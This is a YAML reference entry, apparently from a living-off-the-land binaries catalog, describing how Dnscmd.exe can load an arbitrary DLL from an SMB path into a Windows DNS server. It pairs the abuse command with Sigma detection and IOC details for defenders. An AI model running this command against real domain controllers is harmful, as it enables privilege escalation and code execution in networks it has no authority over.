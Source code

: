 ```yaml
---
Name: Dnscmd.exe
Description: A command-line interface for managing DNS servers
Author: Oddvar Moe
Created: 2018-05-25
Commands:
  - Command: dnscmd.exe dc1.lab.int /config /serverlevelplugindll {PATH_SMB:.dll}
    Description: Adds a specially crafted DLL as a plug-in of the DNS Service. This command must be run on a DC by a user that is at least a member of the DnsAdmins group. See the reference links for DLL details.
    Usecase: Remotely inject dll to dns server
    Category: Execute
    Privileges: DNS admin
    MitreID: T1543.003
    OperatingSystem: Windows server
    Tags:
      - Execute: DLL
      - Execute: Remote
Full_Path:
  - Path: C:\Windows\System32\Dnscmd.exe
  - Path: C:\Windows\SysWOW64\Dnscmd.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_dnscmd_install_new_server_level_plugin_dll.yml
  - IOC: Dnscmd.exe loading dll from UNC/arbitrary path
Resources:
  - Link: https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83
  - Link: https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html
  - Link: https://github.com/dim0x69/dns-exe-persistance/tree/master/dns-plugindll-vcpp
  - Link: https://twitter.com/Hexacorn/status/994000792628719618
  - Link: http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html
Acknowledgement:
  - Person: Shay Ber
  - Person: Dimitrios Slamaris
    Handle: '@dim0x69'
  - Person: Nikhil SamratAshok
    Handle: '@nikhil_mitt'
---
```

